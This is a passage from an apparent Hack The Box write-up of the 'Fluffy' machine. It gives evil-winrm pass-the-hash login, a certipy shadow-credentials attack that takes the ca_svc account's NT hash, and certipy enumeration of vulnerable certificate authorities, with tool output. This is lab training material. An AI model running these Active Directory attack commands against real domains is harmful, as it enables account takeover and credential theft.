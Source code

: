 Use this to login with `evil-winrm` and obtain the user flag
```bash
sync-ad evil-winrm -u 'winrm_svc' -H '<HASH_REDACTED>' -i fluffy.htb
```

![htb-fluffy-user-txt](images/HTB-fluffy/htb-fluffy-user-txt.png)

## root.txt
### p.agila -> ca_svc
To enumerate vulnerable certificates, we'll need to get access to the `Certificate Authority` user (`ca_svc`) who is part of the `Service Accounts` group. 

Since the `p.agila` user has the `Generic All` permission over the `Service Accounts` group, we can run another shadow credential attack and grab their hash
```bash
sync-ad certipy shadow auto -u 'p.agila@fluffy.htb' -p '<PASSWORD_REDACTED>' -account 'ca_svc'
```

```bash
Wed Aug 13 20:47:18 EDT 2025
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'fe1da73f-001c-b67f-4fcb-6ca2364d513a'
[*] Adding Key Credential with device ID 'fe1da73f-001c-b67f-4fcb-6ca2364d513a' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'fe1da73f-001c-b67f-4fcb-6ca2364d513a' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': <HASH_REDACTED>
```

Now let's use `certipy` to find related `ca` vulnerabilities with this account
```bash
sync-ad certipy-ad find -u 'ca_svc@fluffy.htb' -hashes '<HASH_REDACTED>' -dc-ip 10.10.11.69 -vulnerable -stdout
```

```bash
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
```